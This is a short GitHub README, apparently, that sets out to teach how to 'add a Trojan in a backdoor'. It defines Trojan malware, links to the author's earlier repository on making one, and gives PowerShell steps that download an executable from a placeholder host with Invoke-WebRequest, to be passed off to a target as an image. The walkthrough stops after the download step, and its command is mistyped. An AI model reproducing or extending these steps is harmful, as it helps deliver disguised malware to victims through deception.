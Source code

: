 <h1 align="center">Welcome to Repositorie of how to add Trojan in backdoor👋</h1>
<p>
<img src="https://img.shields.io/badge/version-0.1-blue.svg?cacheSeconds=2592000" />
</p>

<img src="https://raw.githubusercontent.com/AnandKatariya/Kali-Linux-Jupyter-Notebook-Installation/a9eea7518be7dadfdc60ac934d98e59735590209/Image/made-with-kali-linux.svg" >

### 🏠 [Homepage](https://github.com/AnandKatariya?tab=repositories)

<p align =center >
  <img src="https://media.tenor.com/-r6mKisZ_ycAAAAM/tokusatsu-ultraman.gif" height='288' width='512' />
</p>

<h2 align="center"> Dont try this at Home, School,Or any other public place!!! </h2>
<br>

<h1 align="center"> Introduction to Trojan</h1>

<p>
A Trojan Horse Virus is a type of malware that downloads onto a computer disguised as a legitimate program. The delivery method typically sees an attacker use social engineering to hide malicious code within legitimate software to try and gain users' system access with their software.
  <P/>

  <h2> If you don't know how to make trojan you need to see my previous repository in that I have explain fully how to make trojan then after that you need to use this repository to add trojan at backdoor. </h2>

### 🏠 [How to make trojan ](https://github.com/AnandKatariya/Create-Trojan)

## But all apart in this we will learn how to add trojan in backdoor from powershell.

<h2>Go to browser and select the image which you want to send to target.</h2><br>
<h2>Then open powershell and direct the powershell to desktop.</h2><br>

## Direct to desktop 
```sh
cd .\Desktop\
```

Then after this it will be redirected to desktop and after that paste the command but before pasting just edit website.com to ehich image you want to send to target paste that URL.

## Downlode you image
```sh
Invoke  WebRequest 'https://website.com/file.exe' -OutFile file.exe 

```


